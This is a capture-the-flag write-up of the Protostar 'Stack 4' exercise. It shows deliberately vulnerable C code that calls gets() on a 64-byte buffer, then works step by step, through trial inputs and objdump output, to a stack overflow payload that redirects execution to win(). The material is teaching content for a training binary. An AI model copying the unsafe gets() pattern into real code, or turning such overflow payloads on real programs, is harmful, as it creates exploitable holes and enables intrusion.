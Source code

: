 
# Stack 4

https://exploit-exercises.com/protostar/stack4/

## Goal

To call the `win` function.

## Source Code

stack4.c

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Exploit

In this case, we can see that we actually don't have a variable to override, but we have to override the return pointer of the `main`
function. Thus, we have to figure out how far away this return address is from the address of the buffer in order to know how many 
characters to put into `buffer` to get to the return address. We know that the return address will be *at least* 64 bytes away from the
beginning of the buffer. I tried different amounts of characters put into the program to see how far away we were:

```
$ python -c 'print "a"*64' | ./stack4
$ python -c 'print "a"*68' | ./stack4
$ python -c 'print "a"*72' | ./stack4
$ python -c 'print "a"*84' | ./stack4
Segmentation fault
$ python -c 'print "a"*76' | ./stack4
Segmentation fault
$ python -c 'print "a"*74' | ./stack4
$ python -c 'print "a"*75' | ./stack4
```

Okay, so we know that putting at least 76 bytes into the buffer will overwrite the return address (causing the SEGFAULT above). We're on
a 32-bit system, so we know that the return address is 4 bytes. Let's try putting 72 'a's and then the address of `win` into the buffer.
As before, we found the address of `win` using `objdump`:

```
$ objdump -D ./stack4 | grep win
080483f4 <win>:
```

Let's try it:

```
$ python -c 'print "a"*72 + "\x08\x04\x83\xf4"[::-1]' | ./stack4
Segmentation fault
```

Hmm, maybe we went too far?


```
$ python -c 'print "a"*70 + "\x08\x04\x83\xf4"[::-1]' | ./stack4
```

Nope, not too far. Let's go farther:

```
$ python -c 'print "a"*74 + "\x08\x04\x83\xf4"[::-1]' | ./stack4
Segmentation fault
$ python -c 'print "a"*76 + "\x08\x04\x83\xf4"[::-1]' | ./stack4
code flow successfully changed
Segmentation fault
```

Perfect, we did it!

